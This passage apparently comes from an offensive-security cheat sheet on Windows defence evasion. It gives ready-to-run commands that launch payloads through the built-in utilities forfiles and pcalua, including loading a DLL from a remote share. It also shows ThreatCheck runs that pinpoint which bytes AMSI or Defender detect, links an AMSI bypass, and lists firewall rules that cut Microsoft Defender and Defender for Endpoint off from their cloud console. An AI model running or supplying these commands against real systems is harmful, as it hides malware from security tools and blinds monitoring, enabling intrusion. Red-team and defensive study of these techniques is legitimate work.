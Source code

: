 ```bash
forfiles /P c:\windows\system32 /M calc.exe /C C:\tmp\pentestlab.exe
```

The program compatibility assistant is a windows utility that runs when it detects a software with compatibility issues. The utility is located in “C:\Windows\System32” and can execute commands with the “-a” argument.

##### Program Compatibility Assistant

```bash
# Open the target .EXE using the Program Compatibility Assistant.
pcalua.exe -a calc.exe
# Open the target .DLL file with the Program Compatibilty Assistant.
pcalua.exe -a \\server\payload.dll

```

#### AMSI

[ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) Takes a binary as input (either from a file on disk or a URL), splits it until it pinpoints that exact bytes that the target engine will flag on and prints them to the screen.

```bash
ThreatCheck.exe -f malicious.bin -e AMSI
```

[AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass) is a powershell script in order to bypass AMSI.

#### Defender

[ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) Takes a binary as input (either from a file on disk or a URL), splits it until it pinpoints that exact bytes that the target engine will flag on and prints them to the screen.

```bash
ThreatCheck.exe -f malicious.exe -e Defender
```

There is another method, which is by disabling the network flows from Microsoft Defender ATP towards his Cloud console.

- **WinDefend**:  Main service executable for Microsoft Defender Antivirus.
- **SenseCncProxy**: Executable that spawns as a child process of MsSense.exe
- **MsSense**: Main service executable for Defender for Endpoint.

```powershell
New-NetFirewallRule -DisplayName "Block 443 MsMpEng" -Name "Block 443 MsMpEng" -Direction Outbound -Service WinDefend -Enabled True -RemotePort 443 -Protocol TCP -Action Block
New-NetFirewallRule -DisplayName "Block 443 SenseCncProxy" -Name "Block 443 SenseCncProxy" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" -RemotePort 443 -Protocol TCP -Action Block
New-NetFirewallRule -DisplayName "Block 443 MsSense" -Name "Block 443 MsSense" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\MsSense.exe" -RemotePort 443 -Protocol TCP -Action Block
```
